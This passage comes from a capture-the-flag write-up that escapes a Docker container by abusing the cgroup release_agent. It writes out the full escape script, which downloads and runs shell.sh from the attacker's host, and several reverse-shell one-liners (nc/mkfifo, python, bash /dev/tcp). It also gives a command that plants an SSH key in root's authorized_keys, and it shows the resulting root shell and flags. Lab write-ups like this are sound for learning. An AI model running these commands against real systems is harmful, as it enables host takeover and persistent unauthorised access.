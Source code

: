 Finally, trigger the attack by spawning a process that immediately ends inside the cgroup that we created. Our `release_agent` script will execute after the process ends. You can now read the output of `ps aux` on the host machine in the `/output` file:

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

You can use the PoC to execute arbitrary commands on the host system. For example, you can use it to write your SSH key to the root user’s `authorized_keys` file:

```bash
cat id_rsa.pub >> /root/.ssh/authorized_keys
```

Back to our machine, we've found the way to perform the docker escape, instead of writing our key into `authorized_keys`, we can simply send a reverse shell, let's do the following:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo 'curl 10.14.21.28:8000/shell.sh -o /dev/shm/shell.sh' >> /cmd
echo 'chmod +x /dev/shm/shell.sh' >> /cmd
chmod a+x /cmd
echo 'sh /dev/shm/shell.sh' >> /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Before doing that, we need to host a `shell.sh` file with the following contents:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/IP/9001 0>&1
```

Once we start our listener and send the last command, we receive our shell as root:

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.21.28] from (UNKNOWN) [10.10.20.76] 33650
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Let's get both flags:

```bash
# cat /home/hayley/user.txt
{d0ck3r_35c4p3}

# cat /root/root.txt
{p1v0t1ng_15_fun}
```
